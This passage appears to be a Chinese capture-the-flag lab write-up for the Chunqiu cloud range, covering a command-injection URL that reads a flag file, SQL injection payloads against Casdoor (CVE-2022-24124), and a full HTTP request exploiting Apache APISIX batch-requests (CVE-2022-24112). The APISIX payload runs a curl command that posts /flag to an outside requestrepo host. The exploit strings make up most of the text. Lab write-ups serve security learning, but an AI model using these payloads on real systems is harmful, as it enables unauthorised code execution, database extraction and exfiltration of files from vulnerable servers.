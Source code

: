 读取flag

http://eci-2ze51ta3xlpb5h4hs28a.cloudeci1.ichunqiu.com/dati/selectappartamenti.php?1=cat%20../../../../../flag

成功获取flag

## CVE-2022-24124 Casdoor api get-oraganizations SQL注入

*靶标介绍：*

Casdoor是开源的一个身份和访问管理 (IAM) / 单点登录 (SSO) 平台，带有支持 OAuth 2.0 / OIDC 和 SAML 身份验证的 Web UI 。 Casdoor 1.13.1 之前存在安全漏洞，该漏洞允许攻击者通过api/get-organizations进行攻击。

```
/api/get-organizations?p=123&pageSize=123&value=cfx&sortField=&sortOrder=&field=updatexml(1,version(),1)

http://xxx:8000/api/get-organizations?p=123&pageSize=123&value=cfx&sortField=&sortOrder=&field=(select 1 from (select count(*), concat((select concat(',',id,flag) from casdoor.flag limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

![image-20230719083308249](%E9%9D%B6%E5%9C%BA.assets/image-20230719083308249.png)

## CVE-2022-24112 Apache APISIX batch-requests SSRF RCE 漏洞 春秋云境

*靶标介绍：*

Apache Apisix是美国阿帕奇（Apache）基金会的一个云原生的微服务API网关服务。该软件基于 OpenResty 和 etcd 来实现，具备动态路由和插件热加载，适合微服务体系下的 API 管理。 Apache APISIX中存在远程代码执行漏洞，该漏洞源于产品的batch-requests插件未对用户的批处理请求进行有效限制。攻击者可通过该漏洞绕过Admin API的IP限制，容易导致远程代码执行。

不知爲何poc到我這裏用不了了

```
POST /apisix/batch-requests HTTP/1.1
Host: eci-2ze8wvg9bxev99bkgfp5.cloudeci1.ichunqiu.com:9080
User-Agent: Go-http-client/1.1
Content-Length: 476
Accept-Encoding: gzip, deflate
Connection: close

{"headers":{"Content-Type":"application/json", "X-REAL-IP": "127.0.0.1"}, "timeout": 500, "pipeline":[{"method": "PUT", "path": "/apisix/admin/routes/index?api_key=edd1c9f034335f136f87ad84b625c8f1", "body":"{\r\n \"name\": \"test\", \"method\": [\"GET\"],\r\n \"uri\": \"/isok\", \r\n \"upstream\":{\"type\":\"roundrobin\",\"nodes\":{\"httpbin.org:80\":1}}\r\n,\r\n\"filter_func\": \"function(vars) os.execute('curl -d @/flag h1mgdmzo.requestrepo.com'); return true end\"}"}]}
```
